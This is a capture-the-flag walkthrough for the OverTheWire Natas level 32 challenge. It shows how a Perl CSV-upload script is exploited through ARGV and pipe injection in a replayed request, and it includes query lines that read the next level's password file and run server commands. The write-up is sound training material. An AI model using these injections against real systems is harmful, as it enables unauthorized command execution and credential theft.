# 🕸️Natas Level 32 → Level 33

```
http://natas32.natas.labs.overthewire.org
```
Username: natas32  
Password: (natas32_password)



Check the sourcecode



Trying out the function using a basic CSV file



Repeat the process, but this time capture the request and forward it to **Replay**.



Make a few modifications to the original request.
```
### Line 1
POST /index.pl?cat+/etc/natas_webpass/natas33+| HTTP/1.1

### Line 15-19
------WebKitFormBoundary9SyAttCCAeGkujWU
Content-Disposition: form-data; name="file"
Content-Type: text/csv

ARGV
```



Nothing is being returned in the output.



I ran into an issue where some commands worked while others didn’t, and I suspect some unknown code is causing it.



So I decided to fuzz it using a wordlist of special characters.



The results show that the special characters ``/``, ``.``, and ``#`` produce responses of different lengths.



Next I send another request using Replay
```
?ls%20.%20|
or this also work
?ls%20#%20|
```


The output lists some files in the current directory, and *getpassword* looks interesting.



Next, I sent another request using Replay.
```
?./getpassword%20|
```



The flag is revealed.



### 📖 Useful Resource For Clearer Understanding
Netanel Rubin: The Perl Jam 2 on Blackhat Asia 2016
```
### Netanel Rubin: The Perl Jam 2 (youtube video)
https://youtu.be/RPvORV2Amic
### Presentation Slide on Blackhat (pdf version)
https://blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf
```

Well done! This is the flag needed for the next challenge.
